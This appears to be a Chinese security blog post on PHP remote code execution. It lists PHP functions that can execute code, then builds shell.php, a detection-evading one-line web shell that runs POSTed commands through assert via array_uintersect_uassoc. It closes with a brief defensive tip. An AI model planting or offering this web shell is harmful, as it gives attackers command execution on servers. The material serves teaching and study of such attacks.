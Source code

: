 ```yaml
---
layout: post
title:  "远程命令执行漏洞"
categories: Remote code execution
tags:  Remote 一句话木马
author: Hannoch
---
```


* content
{:toc}

# 前言
	远程命令执行漏洞，用户通过浏览器提交执行命令，由于服务器端没有针对执行函
数做过滤，导致在没有指定绝对路径的情况下就执行命令，可能会允许攻击者通过改变
$PATH（变量）或程序执行环境的其他方面来执行一个恶意构造的代码。
来源：百度百科
# 远程代码执行原理
	客户端向服务器发送恶意请求，该请求内容中有服务器端可执行的代码，服务器端接收请求后未
对来源数据做出过滤/拦截操作，从而造成代码执行漏洞。

# 远程代码执行常见点

```php
eval()
preg_replace("//e",$_GET['h'],"");
array_map()
usort(),uasort(),uksort()
array_filter()
array_reduce()
array_diff_uassoc(),array_diff_ukey()
array_udiff(),array_udiff_assoc(),
array_udiff_uassoc()
array_intersect_assoc(),array_intersect_uassoc()
array_uintersect(),array_uintersect_assoc(),
array_uintersect_uassoc()
array_walk(),array_walk_recursive()
xml_set_character_data_handler()
xml_set_default_handler()
xml_set_element_handler()
ob_start()
unserialize()
xml_set_end_namespace_decl_handler()
xml_set_external_entity_ref_handler()
xml_set_notation_decl_handler()
xml_set_processing_instruction_handler()
xml_set_start_namespace_decl_handler()
xml_set_unparsed_entity_decl_handler()
stream_filter_register()
set_error_handler()
register_shutdown_function()
register_tick_function()
assert()
```

# 生僻函数免杀一句话
[PHP array_uintersect_uassoc() 函数](http://www.w3school.com.cn/php/func_array_uintersect_uassoc.asp)
比较两个数组的键名和键值（使用用户自定义函数进行比较），并返回交集（匹配）：

```php
<?php
function myfunction_key($a,$b)
{
if ($a===$b)
  {
  return 0;
  }
  return ($a>$b)?1:-1;
}

function myfunction_value($a,$b)
{
if ($a===$b)
  {
  return 0;
  }
  return ($a>$b)?1:-1;
}

$a1=array("a"=>"red","b"=>"green","c"=>"blue");
$a2=array("a"=>"red","b"=>"green","c"=>"green");

$result=array_uintersect_uassoc($a1,$a2,"myfunction_key","myfunction_value");
print_r($result);
?>
```
语法
`array_uintersect_uassoc(array1,array2,array3...,myfunction_key,myfunction_value)`
参数	描述
**array1** 必需。与其他数组进行比较的第一个数组。
**array2**	必需。与第一个数组进行比较的数组。
**array3,...**	可选。与第一个数组进行比较的其他数组。
** myfunction_key ** 必需。用于比较数组键名的用户自定义函数的名称。

定义可调用的比较函数。如果第一个参数小于等于或大于第二个参数，则比较函数必须返回小于等于或大于 0 的整数。

** myfunction_value ** 必需。用于比较数组键值的用户自定义函数的名称。

定义可调用的比较函数。如果第一个参数小于等于或大于第二个参数，则比较函数必须返回小于等于或大于 0 的整数。

使用用户自定义的回调函数 myfunction_key 和 myfunction_value 来计算两个或多个数组的交集（即在 array1 中存在，同时也在其它任何数组中存在的所有数组元素），并返回结果数组。

同时进行键名和键值的比较，如 "a"=>1 和 "b"=>1 这两个元素是不相等的。

myfunction_key 指定的函数用于比较键名是否相等。myfunction_value 指定的函数用于比较键值是否相等。这两个函数都带有两个将进行比较的参数。如果第一个参数小于第二个参数，则函数返回一个负数，如果两个参数相等，则要返回 0，如果第一个参数大于第二个，则返回一个正数。

返回的数组中键名保持不变。

生成我们的一句话木马
shell.php
```php
$a1=array($_POST['cmd']);
$a2=array($_POST['cmd']);
$result=array_uintersect_uassoc($a1,$a2,"assert","assert");
```

防护：在开发中尽量不要使用危险函数，输入的变量一定要进行过滤。

